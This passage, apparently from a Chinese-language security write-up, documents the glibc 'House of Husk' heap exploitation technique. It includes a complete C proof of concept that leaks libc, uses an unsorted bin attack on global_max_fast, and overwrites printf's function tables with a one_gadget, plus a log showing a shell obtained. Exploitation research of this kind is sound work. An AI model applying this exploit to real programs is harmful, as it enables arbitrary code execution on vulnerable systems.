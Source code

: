 这个漏洞（也可以说是特性）不会受 libc 版本的限制，只要有 global_max_fast 就能触发。

### poc

```c
#include <stdio.h>
#include <stdlib.h>

#define offset2size(ofs) ((ofs)*2 - 0x10)
#define MAIN_ARENA          0x3ebc40
#define GLOBAL_MAX_FAST     0x3ed940
#define PRINTF_FUNCTABLE    0x3f0738
#define PRINTF_ARGINFO      0x3ec870
#define ONE_GADGET          0x10a2fc

int main()
{
    unsigned long libc_base;
    char* a[10];
    setbuf(stdout, NULL);

    a[0] = malloc(0x500);
    a[1] = malloc(offset2size(PRINTF_FUNCTABLE - MAIN_ARENA));
    a[2] = malloc(offset2size(PRINTF_ARGINFO - MAIN_ARENA));
    a[3] = malloc(0x500);
    free(a[0]);
    libc_base = *(unsigned long*)a[0] - MAIN_ARENA - 0x60; /* UAF */
    printf("[\033[01;32m+\033[0m] libc -> 0x%lx\n", libc_base);

    *(unsigned long*)(a[2] + ('X'-2)*8) = libc_base + ONE_GADGET;

    /* Unsorted bin attack */
    *(unsigned long*)(a[0] + 8) = libc_base + GLOBAL_MAX_FAST - 0x10;
    a[0] = malloc(0x500);

    free(a[1]);
    free(a[2]);

    printf("%X", 0);
    return 0;
}
```

```bash
upwind@ubuntu-18:/mnt/hgfs/share/house_of_husk$ ./huskpoc
[+] libc -> 0x7f0af95c0000
$ whoami
upwind
```

经过测试，在 `__printf_function_table['X']` 处填写 one_gadget 也能拿到 shell

```c
// glibc/stdio-common/vfprintf-internal.c:2003
              /* Call the function.  */
              function_done = __printf_function_table[(size_t) spec]
                (s, &specs[nspecs_done].info, ptr);
```
